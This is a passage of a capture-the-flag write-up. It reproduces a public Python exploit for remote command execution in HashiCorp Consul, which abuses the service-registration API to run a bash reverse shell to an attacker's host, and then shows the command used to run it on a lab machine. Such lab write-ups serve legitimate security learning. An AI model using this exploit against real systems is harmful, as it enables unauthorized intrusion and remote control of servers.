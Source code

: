 ## Weaponization x2

I searched for "Consul 1.19 cve" and found [This exploit](https://www.exploit-db.com/exploits/51117).

```python
# Exploit Title: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
# Date: 26/10/2022
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://www.consul.io/
# Description: Exploit for gain reverse shell on Remote Command Execution via API
# References: https://www.consul.io/api/agent/service.html
# Tested on: Ubuntu Server
# Software Link: https://github.com/hashicorp/consul

import requests, sys

if len(sys.argv) < 6:
    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")
    exit(1)

target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
headers = {"X-Consul-Token": f"{sys.argv[5]}"}
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}

try:
    requests.put(target, headers=headers, json=json)
    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")   
```

## Exploitation x2

I'll run the exploit:

```shell
python exploit_consul.py 127.0.0.1 8888 10.10.14.17 777 a
```

### Root flag

![](Pasted%20image%2020250509203202.png)

==Machine pwned!==

